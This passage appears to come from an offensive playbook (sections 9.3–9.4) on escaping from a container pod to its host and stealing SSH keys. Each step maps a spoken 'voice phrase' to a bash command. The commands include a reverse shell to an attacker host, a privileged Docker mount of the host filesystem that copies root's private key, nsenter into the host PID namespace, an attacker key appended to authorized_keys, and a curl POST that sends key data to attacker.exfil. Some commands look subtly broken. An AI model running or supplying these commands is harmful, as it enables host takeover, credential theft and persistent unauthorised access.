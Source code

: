 ### 9.3 Pod-to-Host Escape & Pivot

#### 9.3.1 Privileged Volume Mount Abuse

```bash
# Voice Phrase: “Mount host filesystem”
bash -c "bash -i >& /dev/tcp/attacker/9002 0>&1 & \
docker run --rm -v /:/mnt/host --privileged alpine chroot /mnt/host /bin/bash -c 'cp /root/.ssh/id_rsa /mnt/host/tmp/id_rsa'"
```

* **Sequence & Primitives**

  1. `execve("docker", …)` → Docker API socket `/var/run/docker.sock` → container creation with `clone(CLONE_NEWNS|CLONE_NEWUSER)`
  2. `chroot("/mnt/host")` → `chroot(2)` into host FS
  3. `open("/root/.ssh/id_rsa", O_RDONLY)` + `read()` + `write("/mnt/host/tmp/id_rsa")`

#### 9.3.2 Host PID Namespace Leak

```bash
# Voice Phrase: “List host processes”
bash -c "nsenter --target 1 --pid ps aux"
```

* **Syscalls**

  * `execve("nsenter",…)` with `CLONE_NEWPID` → enters PID 1 namespace
  * `execve("ps",…)` → reads `/proc`

---

### 9.4 SSH Key Exfiltration & Persistence

#### 9.4.1 Writing to `authorized_keys`

```bash
# Voice Phrase: “Add my key”
bash -c "echo 'ssh-rsa AAAA… attacker@host' >> /root/.ssh/authorized_keys"
```

* **Syscalls**

  * `open("/root/.ssh/authorized_keys", O_APPEND|O_WRONLY)` + `write()` → persistent access

#### 9.4.2 Exfiltrate via STT Channel

```bash
# Voice Phrase: “Send my key”
bash -c "cat /root/.ssh/authorized_keys | base64 | xargs -0 -I{} curl -X POST -d '{}' http://attacker.exfil:80/key"
```

* **Network Primitives**

  * `socket()`, `connect()`, HTTP POST via `curl` through Linkerd sidecar
  * `base64` uses `read()`, `write()`

---